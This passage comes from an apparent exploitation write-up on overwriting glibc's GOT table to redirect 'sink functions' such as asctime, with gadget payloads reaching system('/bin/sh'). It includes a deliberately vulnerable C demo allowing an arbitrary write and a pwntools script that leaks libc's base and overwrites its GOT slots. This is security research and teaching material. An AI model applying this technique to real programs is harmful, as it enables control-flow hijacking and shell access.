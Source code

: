 The length is 0x1f0 if we call `system("/bin/sh")`.

For fx1 and fx2, they are very flexible since they can just chain the gadgets and execute anything. For example, you can combine one_gadget and other gagets to build a shorter payload.

# Special Payload

## Targets

In glibc, there are some functions that can jump to the malicious function pointers on the corrupted GOT table. We call them sink functions. In order to figure out these sink functions. I wrote a [filter script][2] to get a part of sink functions. But this script is very limited since I didn't try different parameters. For example, free could be a sink function if we set the parameter properly.


## Locate the Target Slot

We need to locate the target slot to avoid overwriting the non-related slots. I am too lazy to write a gdb script to do that so I'll give an example and list some common functions' target slot.

## Example - 0x48
Let's pick the first function "asctime" as the sink function.
I wrote and compiled a demo c program for it:
```c
// gcc ./sinkProb.c -o ./sink  -w
#include<stdio.h>
#include <time.h>
int main(){
    size_t rw_area = malloc(0x10000);
    rw_area += 0x8000;
    size_t addr = 0;
    size_t len = 0;
    printf("%p\n",printf);
    read(0,&addr,8);
    read(0,&len,8);
    read(0,addr,len);
    void (*p)(void *,void *,void *,void *,void *,void *) = asctime;
    p(rw_area,rw_area,rw_area,rw_area,rw_area,rw_area);
} 
```
Then, we can use the following script to set the GOT table:
```python
from pwn import *
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def pb(libc: ELF,lx):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    return got+0x18, flat([x for x in range(1,lx+1)])
libc    = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p       = process("./sink")
gdb.attach(p,'')
base = int(p.readline(),16) - (0x7ff6a25244a0-0x7ff6a24c8000) - 0x4250
libc.address=base
info(hex(base))
lx = 36
dest, payload = pb(libc,lx)
success(hex(len(payload)))
context.arch='amd64'
p.send(p64(dest))
p.send(p64(len(payload)))
p.send(payload)
p.interactive()
```

[2]: ../Infra/SinkFinder.py
[3]: ../Code
[4]: ../Temp.md